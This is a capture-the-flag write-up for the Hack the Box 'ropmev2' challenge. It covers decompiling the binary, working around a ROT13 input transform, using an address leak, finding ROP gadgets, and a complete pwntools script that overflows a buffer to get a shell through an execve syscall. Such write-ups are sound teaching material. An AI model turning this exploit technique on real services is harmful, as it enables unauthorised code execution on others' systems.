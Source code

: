 # Hack the Box ropmev2


## Analysing the binary

Running the binary gives me the following prompt:

```
 ./ropmev2 
Please dont hack me
```

Entering any value doesn't give me anything. Therefore I decompile the binary using Cutter.

```
undefined8 main(void)
{
    int32_t iVar1;
    char *buf;
    
    fcn.00401213();
    printf("Please dont hack me\n", &buf);
    read(0, &buf, 500);
    iVar1 = strcmp("DEBUG\n", &buf);
    if (iVar1 == 0) {
        printf("I dont know what this is %p\n", &buf);
        main();
    }
    fcn.00401238((char *)&buf);
    return 0;
}
```

This is the decompilation code for the main function. This compares with the string "DEBUG". </br>If the entered string is equal to DEBUG then it gives the base address of the buffer that is storing the string. </br> However if it not equal then a function is called and then the entered string is passed to that function and the main function is called again.


### Disassembly of the second function

```
void fcn.00401238(char *arg1)
{
    uint64_t uVar1;
    char *s;
    int64_t var_14h;
    
    if (arg1 != (char *)0x0) {
        var_14h._0_4_ = 0;
        while (uVar1 = strlen(arg1), (uint64_t)(int64_t)(int32_t)var_14h < uVar1) {
            if ((arg1[(int32_t)var_14h] < 'a') || ('m' < arg1[(int32_t)var_14h])) {
                if ((arg1[(int32_t)var_14h] < 'A') || ('M' < arg1[(int32_t)var_14h])) {
                    if ((arg1[(int32_t)var_14h] < 'n') || ('z' < arg1[(int32_t)var_14h])) {
                        if (('M' < arg1[(int32_t)var_14h]) && (arg1[(int32_t)var_14h] < '[')) {
                            arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                        }
                    } else {
                        arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + -0xd;
                    }
                } else {
                    arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
                }
            } else {
                arg1[(int32_t)var_14h] = arg1[(int32_t)var_14h] + '\r';
            }
            var_14h._0_4_ = (int32_t)var_14h + 1;
        }
    }
    return;
}
```

Disassembling this function tells us that this is a ROT13 function. So whatever string we input in the program,it will perfor m ROT13 operation on it. 

![Effect of ROT13](rop/effect_of_rot13.png)

The above image shows that the padding sent was different than the one we got a crash on. If we calculate the difference between the two sequence of character, it will be clear that the function is a ROT13 function that is executing.

### Tackling the ROT13 function to get the correct offset

To tackle the rot13 function, I wrote a wrote a ROT13 function of my own. This would set our padding to the correct value before sending it.


```
def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 
```

After sending this to the program and using cyclic_find to get the offset it is found to be 216.

![Correct Offset](rop/correct_offset.png)

This shows that we are able to succesfully get the crash. 


## Creating the ropchain

In the disassebly we can find that there is a syscall, which can be used to call a execve.

**You can also put a null byte at the begining of the padding to skip the ROT13 function**

![Starting of payload](rop/starting_of_payload.png)

If we notice where the sequence of 'a's is starting, we can use it to get the difference between the leaked address and this one. So that later on when we place our string in it, we can point to it.


The difference will be `0xe0`


## Refering to the x64 syscall documentation 

To build a ropchain with the syscall, we need to know exactly what should be the values of the registers. 

[https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)


The following should be the values of the registers :

```
rax = 59

rdi = Argument to the finction. Here "/bin/bash"

rsi = 0

rx = 0
```

Here rsi and rdx are zeroed out because we do not need the other argument and rdx to point to the environment variable.


## Collecting rop gadgest

The rop gadgets can be found using the ropper tool.</br>
I used the following gadgets :

```
0x000000000040142b: pop rdi; ret;
0x0000000000401162: pop rax; ret;
0x0000000000401429: pop rsi; pop r15; ret;
0x0000000000401164: pop rdx; pop r13; ret;
0x0000000000401168: syscall; ret;
```

## Building the ropchain

The ropchain should look something like following : 

"/bin/sh"+padding+pop_rdi+"pointer to /bin/sh"+pop_rax+"execve call value"+pop_rsi+null_bytes+pop_rdx+null_bytes


**Change the /bin/sh to /ova/fu because it is changed by the rot13 function**


Make the padding as follows

```
padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))
```


Thus the whole exploit looks something like this:

```
#pop_rax = 0x0000000000401162
#pop_rdi = 0x000000000040142b
#pop_rsi = 0x0000000000401429
#pop_rdx = 0x0000000000401164
#syscall = 0x0000000000401168
from pwn import *

def rot13(s):
    chars = "abcdefghijklmnopqrstuvwxyz"
    trans = chars[13:]+chars[:13]
    rot_char = lambda c: trans[chars.find(c)] if chars.find(c)>-1 else c
    return ''.join( rot_char(c) for c in s ) 

context.terminal = ['urxvt','-e','sh','-c']
context.log_level = 'DEBUG'
#for local
sh = gdb.debug("./ropmev2")
#for remote
#sh = remote("ip",1234)
sh.recvline()
sh.sendline("DEBUG")
leak = sh.recvline()
leak = leak.decode()
leak = leak[25:]
print("LEAK IS  :",leak)

leak = int(leak,16)

pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi = p64(0x0000000000401429)
pop_rdx = p64(0x0000000000401164)
syscall = p64(0x0000000000401168)

'''
padding = cyclic(300)
padding = rot13(padding)
sh.sendline(padding)
'''
binshp = leak - 0xe0
binshp = p64(binshp)

padding = b'/ova/fu\x00'
padding = padding+b'a'*(216-len(padding))

payload = padding+pop_rdi+binshp+pop_rax+p64(0x3b)+pop_rsi+p64(0x00)*2+pop_rdx+p64(0x00)*2+syscall
sh.sendline(payload)

sh.interactive()
```

![shell](rop/shell.png)


## Regarding the troll on the server

When I tried to exploit this on the server, it wouldn't work because there was no /bin/sh. Change this to /bin/bash, and it will work fine.
